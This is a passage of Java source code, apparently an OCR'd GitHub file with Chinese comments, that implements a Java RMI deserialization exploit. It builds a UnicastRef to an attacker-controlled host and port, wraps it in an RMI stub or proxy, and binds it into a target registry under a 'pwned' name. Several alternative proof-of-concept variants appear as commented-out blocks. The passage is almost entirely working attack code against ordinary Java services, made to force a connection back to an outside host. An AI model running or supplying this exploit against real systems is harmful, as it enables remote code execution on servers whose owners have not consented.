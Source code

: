 ```
        RMIConnectionImpl_Stub remote = new RMIConnectionImpl_Stub(unicastRef);
        /*
        poc2
        Remote remote = (Remote) Proxy.newProxyInstance(RemoteRef.class.getClassLoader(), new Class<?>[]{Activator.class}, new PocHandler(unicastRef));
         */
        /*
        poc3
        Remote remote = (Remote) Proxy.newProxyInstance(RemoteRef.class.getClassLoader(), new Class<?>[] { Activator.class }, new RemoteObjectInvocationHandler(unicastRef));
         */
        /*
        poc4 失败，无效
        UnicastRemoteObject remote = Reflections.createWithoutConstructor(java.rmi.server.UnicastRemoteObject.class);
        Reflections.setFieldValue(unicastRemoteObject, "ref", unicastRef);
        */
        String name = "pwned" + System.nanoTime();
        try {
            registry.bind(name, remote);
        } catch (Throwable e) {
            e.printStackTrace();
        }
    }

    /***
     * 生成一个UnicastRef对象
     * @param host
     * @param port
     * @return
     */
    public static UnicastRef generateUnicastRef(String host, int port) {
        java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
        sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
        sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
        return new sun.rmi.server.UnicastRef(liveRef);
    }

    public static class PocHandler implements InvocationHandler, Serializable {
        private RemoteRef ref;

        protected PocHandler(RemoteRef newref) {
            ref = newref;
        }


        @Override
        public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
            return method.invoke(this.ref, args);
        }
    }

}

```
